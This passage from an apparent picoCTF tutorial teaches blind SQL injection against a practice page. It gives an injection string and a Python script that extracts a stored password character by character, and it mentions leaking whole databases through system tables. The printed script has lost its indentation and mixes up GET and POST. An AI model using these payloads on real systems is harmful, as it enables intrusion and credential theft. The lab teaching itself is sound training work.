
That is because we did not guess the first character. If you keep trying different characters, you will find that the first character of the password is ‘f', when you inject this:
' or username='picoctf' and (select substr(password, 1, 1))='f
And see as a result this:

You could possibly find the whole password manually, but it would take too much effort. On the other hand, you may want to obtain all the passwords in the database, or even all the fields from the database! This same process can be applied for any field… In most of the SQL engines there is a system table that contains the names of all tables and columns, so once we find a SQL injections databases we might be able to leak the whole database. For this exercise we will only obtain one password. To be more efficient, we will write a python script that does the job for us. Suppose we found the name of the table in some way. The script would be the following:
import requests
from string import printable
accum=""
for i in range(40):
for letter in printable:
accum+=letter
r = requests.post("http://primer.picoctf.com/vuln/web/blindsql.php?&username=WeDontCare&password=' or '"
+ letter+"'=( select substr(binary password,"+str(i)+",1) from pico_blind_injection where id=1 ) and ''= '")
if 'NOTHING FOUND...' in r.text:
accum=accum[:-1]
print "nope"
else:
print "We found the character: "+letter
print accumThis script is just one of the many ways in which a blind SQL injection can be done. With your knowledge of Python and SQL, you should be able to understand the script if you read it carefully. Note the following:
-
‘Printable' is just a string with all the printable ASCII characters, and we iterate over them.
-
‘Binary' in mysql context, is just a way to specify the we want to make a case sensitive comparisons. If we do not use it, we would not be able to identify if a character is lowercase or uppercase.
-
We are sending GET parameters to the web site. For this reason we can encode them in the URL.
-
We put the select ' at the end of the query to handle the closing single quote.
-
‘NOTHING FOUND…' Is the message printed in the html, so if that is present in the html
-
To clear your doubts, experiment in the SQL editor with similar queries, or do prints on the python script to make sure you understand every part of it.
Depending on the SQL engine, there can be several ways to inject SQL. Even Frameworks that handle the queries for you, might have vulnerabilities in some versions, or because they are used incorrectly by developers.
Keep up the good work!